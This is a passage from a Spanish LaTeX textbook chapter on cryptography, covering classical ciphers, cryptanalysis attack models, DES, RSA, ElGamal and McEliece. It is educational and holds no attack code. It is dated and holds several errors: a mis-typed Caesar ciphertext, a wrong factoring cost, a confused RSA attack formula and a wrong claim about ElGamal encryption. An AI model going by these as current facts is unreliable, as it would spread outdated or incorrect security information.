conocedor de la clave (y, por supuesto, de la funci\'on), ser\'a
capaz de descifrar el criptograma, y nadie que no conozca dicha clave puede
ser capaz del descifrado, a\'un en el caso de que se conozca la funci\'on
utilizada.
\section{Clasificaci\'on de los criptosistemas}
La gran clasificaci\'on de los criptosistemas se hace en funci\'on
de la disponibilidad de la clave de cifrado/descifrado. Existen, por tanto,
dos grandes grupos de criptosistemas:
\subsection{Criptosistemas de clave secreta}
Denominamos criptosistema de clave secreta (de clave privada, de clave \'unica 
o sim\'etrico) a aquel criptosistema en el que la clave de cifrado, ${\cal K}$, 
puede ser calculada a partir de la de descifrado, ${\cal K}^{\prime}$, y
viceversa. En la mayor\'{\i}a de estos sistemas, ambas claves coinciden, y por
supuesto han de mantenerse como un secreto entre emisor y receptor: si un 
atacante descubre la clave utilizada en la comunicaci\'on, ha roto el 
criptosistema.\\
\\Hasta la d\'ecada de los setenta, la invulnerabilidad de todos
los sistemas depend\'{\i}a de este man\-te\-ni\-mien\-to en secreto de la clave 
de cifrado. Este hecho presentaba una gran desventaja: hab\'{\i}a que enviar, 
aparte del criptograma, la clave de cifrado del emisor al receptor, para que 
\'este fuera capaz de descifrar el mensaje. Por tanto, se incurr\'{\i}a en los
mismos peligros al enviar la clave, por un sistema que hab\'{\i}a de
ser supuestamente seguro, que al enviar el texto plano. De todos
los sistemas de clave secreta, el \'unico que se utiliza en la actualidad
es DES ({\it Data Encryption Standard}, que veremos m\'as
adelante); otros algoritmos de clave privada, como el cifrado Caesar o el 
criptosistema de Vigen\`ere (ser\'an tambi\'en brevemente comentados m\'as 
adelante) han sido criptoanalizados con \'exito, lo cual da una idea del 
porqu\'e del desuso en que han ca\'{\i}do estos sistemas (con la excepci\'on de 
DES, que es seguramente el algoritmo de cifra m\'as utilizado en la actualidad).
Por si esto no fuera suficiente, el hecho de que exista al menos una clave de 
cifrado/descifrado entre cada dos usuarios de un sistema har\'{\i}a inviable la 
existencia de criptosistemas sim\'etricos en las grandes redes de computadores
de hoy en d\'{\i}a: para un sistema de computaci\'on con $N$ usuarios,
se precisar\'{\i}an $\frac{N(N-1)}{2}$ claves diferentes, lo cual es obviamente 
imposible en grandes sistemas. Todos estos motivos han propiciado que el 
estudio de los cifradores sim\'etricos (excepto DES) quede relegado a un papel 
hist\'orico.\\
\\Los sistemas de cifrado de clave \'unica se dividen a su vez en dos grandes 
grupos de criptosistemas: por una parte tenemos los {\bf cifradores de flujo}, 
que son aquellos que pueden cifrar un s\'olo bit de texto claro al mismo 
tiempo, y por tanto su cifrado se produce bit a bit, y por otro lado tenemos 
los {\bf cifradores de bloque}, que cifran un bloque de bits (habitualmente, 
cada bloque es de 64 bits) como una \'unica unidad.

\subsection{Criptosistemas de clave p\'ublica}
Como hemos dicho en la introducci\'on, en 1976, Whitfield Diffie y Martin 
Hellman, de la Universidad de Stanford,
demostraron la posibilidad de construir criptosistemas que no precisaran
de la transferencia de una clave secreta en su trabajo \cite{kn:dh76}. Esto 
motiv\'o multitud de investigaciones y discusiones sobre la criptograf\'{\i}a 
de clave p\'ublica y su impacto, hasta el punto que
la NSA ({\it National Security Agency}) estadounidense trat\'o de controlar
el desarrollo de la criptograf\'{\i}a, ya que la consideraban una amenaza 
peligrosa para la seguridad nacional. Esta pol\'emica ha llegado incluso hasta 
nuestros d\'{\i}as, en los que el {\it affaire} Zimmermann (el autor de PGP) o 
el {\it Clipper Chip} han llenado portadas de peri\'odicos de todo el mundo.\\
\\Veamos ahora en que se basan los criptosistemas de clave p\'ublica.
En \'estos, la clave de cifrado se hace de conocimiento general (se
le llama {\bf clave p\'ublica}). Sin embargo, no ocurre lo mismo con la
clave de descifrado ({\bf clave privada}), que se ha de mantener en secreto.
Ambas claves no son independientes, pero del conocimiento de la p\'ublica
no es posible deducir la privada sin ning\'un otro dato (recordemos que en los
sistemas de clave privada suced\'{\i}a lo contrario). Tenemos pues un par 
clave p\'ublica-clave privada; la existencia de ambas claves di\-fe\-ren\-tes, para
cifrar o descifrar, hace que tambi\'en se conozca a estos criptosistemas como
{\bf asim\'etricos}.\\
\\Cuando un receptor desea recibir una informaci\'on cifrada, ha
de hacer llegar a todos los potenciales emisores su clave p\'ublica,
para que estos cifren los mensajes con dicha clave. De este modo, el \'unico
que podr\'a descifrar el mensaje ser\'a el leg\'{\i}timo receptor,
mediante su clave privada. Matem\'aticamente, si $\cal E$ es el algoritmo
cifrador y $\cal D$ el descifrador, se ha de cumplir que 
\begin{center}${\cal D}(k,{\cal E}(k^{\prime},M))=M$,
\end{center}
representando $\cal M$ un mensaje, y siendo $k$ y $k^{\prime}$ las claves de 
descifrado y cifrado, respectivamente.
\section{Criptoan\'alisis}
El criptoan\'alisis es la ciencia opuesta a la criptograf\'{\i}a (quiz\'as
no es muy afortunado hablar de ciencias {\it opuestas}, sino m\'as bien de 
ciencias {\it complementarias}), ya 
que si \'esta trata principalmente de crear y analizar criptosistemas seguros,
la primera intenta romper esos sistemas, demostrando su vulnerabilidad: dicho
de otra forma, trata de descifrar los criptogramas.
El t\'ermino {\it descifrar} siempre va acompa\~nado de discusiones de 
car\'acter t\'ecnico, aunque asumiremos que descifrar es conseguir el texto en 
claro a partir de un criptograma, sin entrar en pol\'emicas de reversibilidad y 
solidez de criptosistemas.\\
\\En el an\'alisis para establecer las posibles debilidades de un
sistema de cifrado, se han de asumir las denominadas condiciones del peor
caso: 
(1) el criptoanalista tiene acceso completo al algoritmo de encriptaci\'on,
(2) el criptoanalista tiene una cantidad considerable de texto cifrado,
y (3) el criptoanalista conoce el texto en claro de parte de ese texto
cifrado. Tambi\'en se asume generalmente el {\bf Principio de Kerckhoffs},
que establece que la seguridad del cifrado ha de residir exclusivamente
en el secreto de la clave, y no en el mecanismo de cifrado.\\
\\Aunque para validar la robustez de un criptosistema normalmente se
suponen todas las condiciones del peor caso, existen ataques m\'as
espec\'{\i}ficos, en los que no se cumplen todas estas condiciones. Cuando el
m\'etodo de ataque consiste simplemente en probar todas y cada una de las
posibles claves del espacio de claves hasta encontrar la correcta, nos 
encontramos ante un ataque de fuerza bruta o {\bf ataque exhaustivo}. Si
el atacante conoce el algoritmo de cifrado y s\'olo tiene acceso al
criptograma, se plantea un {\bf ataque s\'olo al criptograma}; un caso m\'as 
favorable
para el criptoanalista se produce cuando el ataque cumple todas las condiciones
del peor caso; en este caso, el criptoan\'alisis se denomina
{\bf de texto en claro conocido}. Si adem\'as el atacante puede cifrar una 
cantidad 
indeterminada de texto en claro al ataque se le denomina {\bf de texto en claro 
escogido}; este es el caso habitual de los ataques contra el sistema de
verificaci\'on de usuarios utilizado por Unix, donde un intruso consigue la
tabla de contrase\~nas (generalmente {\tt /etc/passwd}) y se limita a realizar
cifrados de textos en claro de su elecci\'on y a comparar los resultados con 
las claves cifradas (a este ataque tambi\'en se le llama {\bf de 
diccionario}, debido a que el atacante suele utilizar un fichero `diccionario' 
con los textos en claro que va a utilizar).  El caso m\'as favorable para un 
analista se produce cuando puede 
obtener el texto en claro correspondiente a criptogramas de su elecci\'on; en 
este caso el ataque se denomina {\bf de texto cifrado escogido}.\\
\\Cualquier algoritmo
de cifrado, para ser considerado seguro, ha de soportar todos estos ataques 
y otros no citados; sin embargo, en la criptograf\'{\i}a, como en cualquier 
aspecto de la seguridad, inform\'atica o no, no debemos olvidar un factor muy 
importante: las personas. El sistema m\'as robusto caer\'a f\'acilmente si se 
tortura al emisor o al receptor hasta que desvelen el contenido del mensaje, o 
si se le ofrece a uno de ellos una gran cantidad de dinero; este tipo de 
ataques (sobornos, amenazas, extorsi\'on, tortura\ldots) se consideran siempre 
los m\'as efectivos.\\
\section{Criptograf\'{\i}a cl\'asica}
\subsection{El sistema Caesar}
El cifrado Caesar (o C\'esar) es uno de los m\'as antiguos que se conocen.
Debe su nombre al em\-pe\-ra\-dor Julio C\'esar, que presuntamente lo utiliz\'o 
para establecer comunicaciones seguras con sus generales durante las Guerras 
G\'alicas.\\
\\Matem\'aticamente, para trabajar con el cifrado Caesar, tomamos
el alfabeto ${\cal A}={\cal Z}_{m}$ (enteros de m\'odulo $m$). Cuando $a$ y $b$ 
son primos entre s\'{\i}, la aplicaci\'on $f(x)=ax+b$, $a\neq 0$, recibe el 
nombre de {\it codificaci\'on m\'odulo m con par\'ametros a, b}, donde el par 
$(a,b)$ es la clave de este criptosistema. As\'{\i}, trabajando con el 
alfabeto ingl\'es (para nosotros resulta 
conveniente tomar este alfabeto, de uso m\'as extendido en inform\'atica que el 
espa\~nol; la \'unica diferencia radica en el uso de la letra `\~n'), podemos 
tomar el alfabeto definido por ${\cal Z}_{26}$, para lo cual asignamos a cada 
letra $(a..z)$ un entero m\'odulo 26, de la siguiente forma:
\begin{center}
\begin{tabular}{|c|c|c|c|c|c|}
\hline
A=0 & B=1 & C=2 & D=3 & E=4 & F=5\\ \hline
G=6 & H=7 & I=8 & J=9 & K=10 & L=11\\ \hline
M=12& N=13 & O=14 & P=15 & Q=16 & R=17\\ \hline
S=18 & T=19 & U=20 & V=21 & W=22 & X=23\\ \hline
Y=24 & Z=25 &&&&\\
\hline
\end{tabular}
\end{center}
El cifrado Caesar siempre utiliza la clave $(1,b)$, es decir, siempre
tomaremos $a=1$. De esta forma, la anterior aplicaci\'on quedar\'a
$f(x)=x+b$, lo cual se traduce sencillamente en que para encriptar una letra
hemos de tomar su entero correspondiente y sumarle $b$ (la clave del 
criptosistema) para obtener el texto cifrado. An\'alogamente, y gracias al 
hecho de que $f(x)$ siempre ha de ser biyectiva, independientemente del valor
de $b$, para descifrar un texto tomamos la funci\'on inversa, definida
por $f^{-1}(x)=x-b$. Veamos un ejemplo sencillo, en el que se toma $b=4$:
queremos cifrar, con la clave $(1,4)$, la palabra {\it CESAR}; en primer lugar,
tomando el valor de cada letra, tenemos el equivalente num\'erico de la palabra:
\begin{center}
\begin{tabular}{|c|c|c|c|c|}
\hline
C & E & S & A & R\\
\hline
2 & 4 & 18 & 0 & 17\\
\hline
\end{tabular}
\end{center}
A cada uno de los n\'umeros anteriores le aplicamos la funci\'on $f(x)=x+4$,
de forma que obtenemos el texto cifrado: 
\begin{center}
\begin{tabular}{|c|c|c|c|c|}
\hline
6 & 8 & 22 & 4 & 21\\
\hline
G & I & W & E & W\\
\hline
\end{tabular}
\end{center}
Este texto ({\it GIWEV}) es el resultado de cifrar la palabra {\it CESAR} con
la clave elegida ($b=4$): es lo que enviar\'{\i}amos al receptor, que conociendo
la clave acordada ser\'{\i}a capaz de descifrarlo.\\
\\Veamos ahora el ejemplo contrario: somos los receptores de un mensaje del que 
sabemos que ha sido cifrado con la misma clave $(1,4)$, y buscamos descifrar la 
cadena que nos ha sido enviada, {\it FVYXYW}. El valor de cada letra es
\begin{center}
\begin{tabular}{|c|c|c|c|c|c|}
\hline
F & V & Y & X & Y & W\\
\hline
5 & 21 & 24 & 23 & 24 & 22\\
\hline
\end{tabular}
\end{center}
Tomando $f^{-1}(x)=x-4$, tenemos el resultado
\begin{center}
\begin{tabular}{|c|c|c|c|c|c|}
\hline
1 & 17 & 20 & 19 & 20& 18\\
\hline
B & R & U & T & U & S\\
\hline
\end{tabular}
\end{center}
Como vemos, retornando cada n\'umero al alfabeto ingl\'es obtenemos el texto
en claro que nuestro emisor nos ha enviado: {\it BRUTUS}, equivalente al 
cifrado {\it FVYXYW}.\\
\\Si en el cifrado de un mensaje obtuvi\'eramos que $f(x)>25$ (gen\'ericamente,
$f(x)>m-1$), como trabajamos con enteros de m\'odulo $m$, deber\'{\i}amos
dividir $f(x)$ por $m$, considerando el resto entero como la cifra adecuada.
As\'{\i}, si $f(x)=26$, tomamos $mod(26,26)=0$ (el resto de la divisi\'on
entera), por lo que situar\'{\i}amos una `A' en el texto cifrado.\\
\\Es obvio que el cifrado Caesar tiene 26 claves diferentes (utilizando
el alfabeto ingl\'es), incluyendo la clave de identidad ($b=0$), caso
en el que el texto cifrado y el texto en claro son id\'enticos. As\'{\i}
pues, no resultar\'{\i}a muy dif\'{\i}cil para un criptoanalista realizar
un ataque exhaustivo, buscando en el texto cifrado palabras en claro con
significado en el lenguaje utilizado. Por este motivo, y por otros muchos, este 
criptosistema es claramente vulnerable para un atacante, no ofreciendo una 
seguridad fiable en la transmisi\'on de datos confidenciales.
\subsection{El criptosistema de Vig\`enere}
El sistema de cifrado de Vigen\`ere (en honor al cript\'ografo
franc\'es del mismo nombre) es un sistema polialfab\'etico o
de sustituci\'on m\'ultiple. Este tipo de criptosistemas aparecieron
para sustituir a los monoalfab\'eticos o de sustituci\'on simple,
basados en el Caesar, que presentaban ciertas debilidades frente al ataque
de los criptoanalistas relativas a la frecuencia de aparici\'on de
elementos del alfabeto. El principal elemento de este sistema es la llamada
Tabla de Vigen\`ere, una matriz de caracteres cuadrada, con dimensi\'on 
$26\times26$, que se muestra en la tabla \ref{vig}.\\
% TABLEAU VIGENERE
\begin{table}
\begin{center}
\vspace{0.5cm}
\begin{sloppypar}
\begin{tabular}{|p{5pt}||p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}p{3pt}|}

\hline
 & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s
& t & u & v & w & x & y & z \\ \hline\hline
{\bf A} &a &b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z \\
{\bf B} &b &c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a\\
{\bf C} &c &d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b\\
{\bf D} &d &e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c\\
{\bf E} &e &f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d\\
{\bf F} &f &g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e\\
{\bf G} &g &h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f\\
{\bf H} &h &i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g\\
{\bf I} &i &j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h\\
{\bf J} &j &k & l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i\\
{\bf K} &k &l & m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j\\
{\bf L} &l &m & n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k\\
{\bf M} &m &n & o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l\\
{\bf N} &n &o & p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m\\
{\bf O} &o &p & q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n\\
{\bf P} &p &q & r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o\\
{\bf Q} &q &r & s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p\\
{\bf R} &r &s & t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q\\
{\bf S} &s &t & u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r\\
{\bf T} &t &u & v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s\\
{\bf U} &u &v & w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t\\
{\bf V} &v &w & x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u\\
{\bf W} &w &x & y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v\\
{\bf X} &x &y & z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w\\
{\bf Y} &y &z & a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x\\
{\bf Z} &z &a & b & c & d & e & f & g & h & i & j & k & l & m & n & o & p & q & r & s & t & u & v & w & x & y\\ \hline
\end{tabular}
%{}
\end{sloppypar}
\caption{Tableau Vig\`enere}
\label{vig}
\end{center}
\end{table}
\\La clave del sistema de cifrado de Vigen\`ere es una palabra de
$k$ letras, $k\geq 1$, del alfabeto $Z_{26}$ utilizado anteriormente; esta 
palabra es un elemento del producto cartesiano 
$Z_{26}\times Z_{26}\times...\times Z_{26}$ ($k$ veces), que es justamente
el alfabeto del criptosistema de Vigen\`ere. De esta forma, el mensaje
a cifrar en texto claro ha de descomponerse en bloques de $k$ elementos --
letras --
y aplicar sucesivamente la clave empleada a cada uno de estos bloques,
utilizando la tabla anteriormente proporcionada.\\
\\Veamos un ejemplo de aplicaci\'on del criptosistema de Vigen\`ere:
queremos codificar la frase {\it La abrumadora soledad del programador}
utilizando la clave {\it prueba}. En primer lugar, nos fijamos en la longitud
de la clave: es de seis caracteres, por lo que descomponemos la frase
en bloques de longitud seis; aunque el \'ultimo bloque es de longitud tres,
esto no afecta para nada al proceso de cifrado:
\tt
\begin{center}
laabru    madora   soleda    ddelpr    ograma   dor
\end{center}
\rm
Ahora, aplicamos a cada bloque la clave {\it prueba} y buscamos los resultados
como entradas de la tabla de Vigen\`ere:
\begin{quote}
\begin{verbatim}
laabru    madora   soleda    ddelpr    ograma   dor
prueba    prueba   prueba    prueba    prueba   pru
arufsu    brxhsa   igfiea    suyoqr    exmena   sgm
\end{verbatim}
\end{quote}
Por ejemplo, la primera {\it `a'} del texto cifrado corresponde a la entrada
$(l,p)$, o, equivalentemente, $(p,l)$ de la tabla de Vigen\`ere.
Finalmente, vemos que el texto cifrado ha quedado {\it arufsu brxhsa igfiea
suyoqr exmena sgm}.\\
\\Este m\'etodo de cifrado polialfab\'etico se consideraba
invulnerable hasta que en el S.XIX se consiguieron descifrar algunos mensajes
codificados con este sistema, mediante el estudio de la repetici\'on
de bloques de letras: la distancia entre un bloque y su repetici\'on
suele ser m\'ultiplo de la palabra tomada como clave.\\
\\Una mejora sobre el cifrado de Vigen\`ere fu\'e introducida
por el sistema de Vernam, utilizando una clave aleatoria de longitud $k$
igual a la del mensaje; la confianza en este nuevo criptosistema hizo que
se utilizase en las comunciaciones confidenciales entre la Casa Blanca
y el Kremlin, hasta, por lo menos, el a\~no 1987.
\section{Un criptosistema de clave secreta: DES}
El DEA ({\it Data Encryption Algorithm}) o DES ({\it Data Encryption Standard})
es desde 1977 de uso obligatorio en el cifrado de informaciones gubernamentales
no clasificadas (anunciado por el {\it National Bureau of Standards}, USA). Este
criptosistema fue desarrollado por IBM como una variaci\'on
de un criptosistema anterior, Lucifer, y posteriormente, tras algunas 
comprobaciones llevadas a cabo por la NSA estadounidense, pas\'o
a transformarse en el que hoy conocemos como DES. DES puede ser implementado 
tanto en {\it software} como en chips con tecnolog\'{\i}a VLSI ({\it Very Large 
Scale Integration}), alcanzando en {\it hardware} una velocidad
de hasta 50 Mbs. Un ejemplo de implantaci\'on {\it hard} puede ser PC-Encryptor,
de Eracom, y un ejemplo de implantaci\'on en {\it software} es DES-LOCK,
de la empresa Oceanics.\\
\\DES es un sistema de clave privada tanto de cifrado como de descifrado;
posee una clave de entrada con una longitud de 64 {\it bits}, produciendo una
salida tambi\'en de 64 {\it bits}, con una clave de 56 {\it bits} (el octavo 
{\it bit} de cada {\it byte} es de paridad), llamada clave externa, en la que 
reside toda
la seguridad del criptosistema ya que el algoritmo es de dominio p\'ublico.
Cada trozo de 64 {\it bits} de los datos se desordena seg\'un un esquema
fijo a partir de una permutaci\'on inicial conocida como IP. A continuaci\'on,
se divide cada uno de los trozos en dos mitades de 32 {\it bits}, que se someten
a un algoritmo durante 16 iteraciones. Este algoritmo b\'asico que
se repite 16 veces (llamadas vueltas), utiliza en cada una de ellas 48 de los 
56 {\it bits} de la clave (estos 48 {\it bits} se denominan clave interna, 
diferente en cada vuelta); las claves internas se utilizan en un orden para 
cifrar texto (lla\-me\-mos\-las $K_{1}, K_{2},...,K_{16}$) y en el orden 
inverso ($K_{16},..., K_{1}$)
para descifrarlo. En cada una de las vueltas se realizan permutaciones,
sustituciones no lineales (que constituyen en s\'{\i} el n\'ucleo
del algoritmo DES) y operaciones l\'ogicas b\'asicas, como la
XOR. La mitad derecha se transfiere a la mitad izquierda sin ning\'un
cambio; tambi\'en se expande de 32 hasta 48 {\it bits}, utilizando para
ello una simple duplicaci\'on. El resultado final de una iteraci\'on
es un XOR con la clave interna de la vuelta correspondiente, y esta salida
se divide en bloques de 6 {\it bits}, cada uno de los cuales se somete a una
sustituci\'on en un bloque de 4 {\it bits} (bloque-S, con un rango 0...63)
dando una salida tambi\'en de 4 {\it bits} (rango decimal 0...15) que a
su vez se recombina con una permutaci\'on en un registro con longitud
32 {\it bits}. Con el contenido de este registro se efectua una operaci\'on
XOR sobre la mitad izquierda de los datos originales, convirti\'endose
el nuevo resultado en una salida (parte derecha) de 32 {\it bits}; transcurridas
las dieciseis vueltas, las dos mitades finales (de 32 {\it bits} cada una) se 
recombinan con una permutaci\'on contraria a la realizada al principio (IP),
y el resultado es un criptograma de 64 {\it bits}.\\
\\Aunque no ha sido posible demostrar rigurosamente la debilidad del
criptosistema DES, y actualmente es uno de los m\'as utilizados en el mundo
entero, parece claro que con las actuales computadoras y su elevada potencia
de c\'alculo una clave de 56 {\it bits} (en la que recordemos, reside toda
la seguridad del DES) es f\'acilmente vulnerable frente a un ataque
exhaustivo en el que se prueben combinaciones de esos 56 {\it bits}. Hay que
resaltar que el tama\~no inicial de la clave, en el dise\~no
de IBM, era de 128 {\it bits}; la raz\'on de la disminuci\'on no se
ha hecho p\'ublica hasta el momento. Por si esto fuera poco, otro
factor que ha aumentado las controversias y discusiones acerca de la seguridad
de DES son dos propiedades del algoritmo: la propiedad de complementaci\'on,
que reduce el tiempo necesario para un ataque exhaustivo, y la propiedad
de las claves d\'ebiles, dada cuando el proceso de cifrado es id\'entico
al de descifrado 
($K_{1}=K_{16}, K_{2}=K_{15},..., K_{8}=K_{9}$), que sucede con cuatro claves
del criptosistema. Otro {\it secreto} de IBM (a instancias de la NSA)
es la elecci\'on y dise\~no de las {\it cajas} que
DES utiliza para el cifrado; no se puede evitar el pensar que el gobierno
estadounidense precise un criptosistema con la robustez necesaria para
que nadie, excepto ellos, pueda descifrarlo.\\
\\A la vista de estos hechos, la idea de que DES no va a seguir siendo
el algoritmo de cifrado est\'andar en las instituciones estadounidenses
se va generalizando poco a poco; por tanto, va a ser necesario sustituirlo
por otro algoritmo m\'as robusto frente a los ataques.
Siguiendo esta l\'{\i}nea, Xuejia Lai y James Massey, dos prestigiosos
cript\'ografos, desarrollaron a finales de la d\'ecada de los
ochenta el algoritmo IDEA ({\it International Data Encryption Algorithm}), 
compatible con DES (para aprovechar el gran n\'umero de equipos que utilizan
este algoritmo), y con una robustez garantizada por la clave de 128 {\it bits}
que utiliza este cifrador de bloques y las complejas operaciones
utilizadas para evitar el \'exito de un posible atacante, que van
desde t\'ecnicas de difusi\'on hasta adiciones m\'odulo
$2^{16}$.\\
\\El algoritmo IDEA est\'a siendo ampliamente aceptado en diversas
aplicaciones inform\'aticas orientadas a la seguridad de los datos;
numerosos programas destinados a trabajar en red utilizan ya este algoritmo como
el principal de cifrado.
\section{Criptosistemas de clave p\'ublica}
\subsection{El criptosistema RSA}
Este sistema de clave p\'ublica fu\'e dise\~nado en
1977 por los profesores del MIT (\it{Massachusetts Institute of Technology}\rm)
Ronald R. Rivest, Adi Shamir y Leonard M. Adleman, de ah\'{\i} las siglas
con las que es conocido. Desde entonces, este algoritmo de cifrado se ha
convertido en el prototipo de los de clave p\'ublica.\\
\\La seguridad de RSA radica en la dificultad de la factorizaci\'on
de n\'umeros grandes: es f\'acil saber si un n\'umero es
primo, pero es extremadamente dif\'{\i}cil obtener la factorizaci\'on
en n\'umeros primos de un entero elevado, debido no a la dificultad
de los algoritmos existentes, sino al consumo de recursos f\'{\i}sicos
(memoria, necesidades {\it hardware}\ldots incluso tiempo de ejecuci\'on) de
tales algoritmos. Se ha demostrado que si n es el n\'umero de d\'{\i}gitos
binarios de la entrada de cualquier algoritmo de factorizaci\'on,
el coste del algoritmo es $\theta(2n)$, con un tiempo de ejecuci\'on perteneciente
a la categor\'{\i}a de los llamados problemas intratables.\\
\\Veamos el funcionamiento del algoritmo RSA: si un usuario A desea enviar
informaci\'on cifrada, en primer lugar tiene que calcular un par de claves 
(p\'ublica y privada), para lo que ha de elegir aleatoriamente dos n\'umeros
primos grandes (del orden de cien d\'{\i}gitos), $p$ y $q$, n\'umeros que
se han de mantener en secreto; si llamamos $N$ ($N$ se conoce como m\'odulo) al 
producto $p\times q$, el usuario ha de determinar otro entero, $d$, llamado 
exponente privado, que cumpla
\begin{center}
$mcd(d,(p-1)\times(q-1))=1,\: d<N$ 
\end{center}
es decir, $d$ y el producto $(p-1)\times (q-1)$, que llamaremos funci\'on de
Euler y denotaremos $\varphi(N)$, han de ser primos. Con estos datos, ya 
tenemos la clave privada
del cifrado: el par $(N,d)$; para obtener la clave p\'ublica, hallamos
el inverso multiplicativo del n\'umero $d$ respecto de $\varphi(N)$, de la forma
$e\times d=1\;mod\;\varphi(N)$. Calculado este entero $e$, llamado exponente 
p\'ublico, la clave p\'ublica ser\'a el par $(N,e)$.\\
\\Una vez el emisor A dispone de sus claves p\'ublica y privada,
podr\'{\i}a enviar un mensaje cifrado, que llamaremos $m$, a un posible
receptor, mediante la operaci\'on
\begin{center}
$c=m^{e}\,mod\,N$
\end{center}
aplicada a cada elemento del mensaje.\\
\\Cuando el receptor del criptograma desee descifrar el mensaje recibido, ha
de realizar la operaci\'on
\begin{center}
$m=c^{d}\,mod\,N$
\end{center}
para obtener el texto en claro del mensaje que acaba de recibir.\\
\\El sistema RSA ha permanecido invulnerable hasta hoy, a pesar de los
numerosos ataques de criptoanalistas; te\'oricamente es posible despejar
$d$ para obtener la clave privada, a partir de la funci\'on de descifrado,
resultando
\begin{center}
$d=log_{c} m(mod(p-1))$
\end{center}
Sin embargo, el c\'alculo de logaritmos discretos es un problema
de una complejidad desbordante, por lo que este tipo de ataque se vuelve
impracticable: la resoluci\'on de congruencias del tipo 
$a^{x}\equiv b(n)$, necesarias
para descifrar el mensaje, es algor\'{\i}tmicamente inviable sin ninguna
informaci\'on adicional, debido al elevado tiempo de ejecuci\'on
del algoritmo. Aunque cuando los factores de $(p-1)$ son peque\~nos existe
un algoritmo, desarrollado por Pohlig y Hellman de orden $O(log^{2} p)$, \'este
es otro de los algoritmos catalogados como intratables, vistos anteriormente.
\subsection{El criptosistema de ElGamal}
Durante 1984 y 1985 ElGamal desarroll\'o un nuevo criptosistema
de clave p\'ublica basado en la intratabilidad computacional del problema
del logaritmo discreto: obtener el valor de $x$ a partir de la expresi\'on
\begin{center}
$y\equiv a^{x}(mod\,p)$
\end{center}
es, como hemos comentado para RSA, computacionalemente intratable
por norma general.\\
\\Aunque generalmente no se utiliza de forma directa, ya que la velocidad
de cifrado y autenticaci\'on es inferior a la obtenida con RSA, y adem\'as
las firmas producidas son m\'as largas (<el doble de largo que el texto
original!), el algoritmo de ElGamal es de gran importancia en el desarrollo
del DSS ({\it Digital Signature Standard}), del NIST ({\it National Institute 
of Standards and Technology}) estadounidense.\\
\\En este sistema, para generar un par clave p\'ublica/privada, se
escoge un n\'umero primo grande, $p$, y dos enteros $x$ y $a$, 
$1\leq x\leq p-1$, $1\leq a\leq p-1$, y se calcula
\begin{center}
$y=a^{x}(mod\,p)$
\end{center}
La clave p\'ublica ser\'a el n\'umero $y$, y la privada el n\'umero $x$.\\
\\Para firmar un determinado mensaje, el emisor elige un entero aleatorio
$k$, $0<k<p-1$, no usado con anterioridad y con la restricci\'on
que $k$ sea relativamente primo a $(p-1)$, y computa
\begin{quote}
$r=a^{k}\,mod\,p$\\
$s=[k^{-1}(m-xr)]\,mod\,(p-1)$,
\end{quote}
donde $k^{-1}$ es el inverso de $k\, mod\, (p-1)$; as\'{\i},
\begin{center}
$k\times k^{-1}=1\, mod\, (p-1)$.
\end{center}
La firma del mensaje estar\'a entonces formada por $r$ y $s$; un potencial
receptor puede usar la clave p\'ublica y para calcular $y^{r} r^{s}\, mod\, p$
y comprobar si coincide con $a^{m}\,mod\,p$:
\begin{center}
$y^{r}r^{s}\,mod\,p= a^{m}\,mod\,p$
\end{center}
El criptosistema de ElGamal tiene una caracter\'{\i}stica determinante
que lo distingue del resto de sistemas de clave p\'ublica: en el cifrado
se utiliza aparte de la clave p\'ublica del receptor, la clave privada
del emisor.
\subsection{Criptosistema de McEliece}
En 1978 McEliece present\'o un nuevo criptosistema de clave p\'ublica,
basado en la Teor\'{\i}a de la Codificaci\'on algebraica. Dado que
esta teor\'{\i}a es muy compleja, los expertos recomiendan una 
familiarizaci\'on matem\'atica preliminar con la Teor\'{\i}a de la 
Codificaci\'on, los C\'odigos de Goppa, y los Cuerpos de Galois.\\
\\En el sistema de McEliece, cada usuario ha de elegir un polinomio irreducible
de grado $t$, y construir una matriz generadora del correspondiente c\'odigo
de Goppa, matriz $G$, de orden $k\times n$. Tambi\'en ha de calcular 
$G^{\ast}$, matriz
generadora de c\'odigo lineal tal que no exista un algoritmo computable
